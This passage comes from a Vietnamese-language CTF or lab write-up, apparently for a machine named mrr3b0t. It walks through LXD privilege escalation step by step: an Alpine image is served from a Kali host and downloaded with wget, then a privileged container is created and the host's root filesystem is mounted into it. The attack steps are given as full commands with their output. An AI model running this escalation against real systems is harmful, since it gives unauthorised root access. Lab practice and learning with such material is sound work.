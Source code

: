 Sau khi chạy xong sẽ sinh ra một file .tar.gz mới, chạy http server và truyền file qua máy victim để import image.

```shell
┌──(kali㉿kali)-[~/lxd-alpine-builder]
└─$ python3 -m http.server 8000
```

**Step 2**: Khởi tạo lxd và Import image vào máy victim

```shell
exploiter@mrr3b0t:/tmp$ wget http://10.0.2.15:8000/alpine-v3.18-x86_64-20230925_0531.tar.gz
exploiter@mrr3b0t:/tmp$ ls
alpine-v3.18-x86_64-20230925_0531.tar.gz
```

```shell
exploiter@mrr3b0t:/tmp$ lxd init
...
...
exploiter@mrr3b0t:/tmp$ lxc image import alpine-v3.18-x86_64-20230925_0531.tar.gz --alias alpine_image
Image imported with fingerprint: 9f78e02a3c7f2fe0e446fb729fd4a6ad92d16b3a942203416420e1fe92a3c038
exploiter@mrr3b0t:/tmp$ lxc image list
+--------------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|    ALIAS     | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| alpine_image | 9f78e02a3c7f | no     | alpine v3.18 (20230925_05:31) | x86_64 | 3.62MB | Sep 25, 2023 at 9:43am (UTC) |
+--------------+--------------+--------+-------------------------------+--------+--------+------------------------------+
```

**Step 3**: Tạo container và gắn vào thư mục /root

```shell
exploiter@mrr3b0t:/tmp$ lxc init alpine_image hehe -c security.privileged=true
```

Việc chúng ta set `security.privileged=true` sẽ giúp duy trì đặc quyền root trong toàn bộ hệ thống victim, kể cả khi thoát khỏi container.

```shell
exploiter@mrr3b0t:/tmp$ lxc list
+------+---------+------+------+------------+-----------+
| NAME |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+------+---------+------+------+------------+-----------+
| hehe | STOPPED |      |      | PERSISTENT | 0         |
+------+---------+------+------+------------+-----------+
```

Mount container vào thư mục root

```shell
exploiter@mrr3b0t:/tmp$ lxc config device add hehe mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to hehe
```
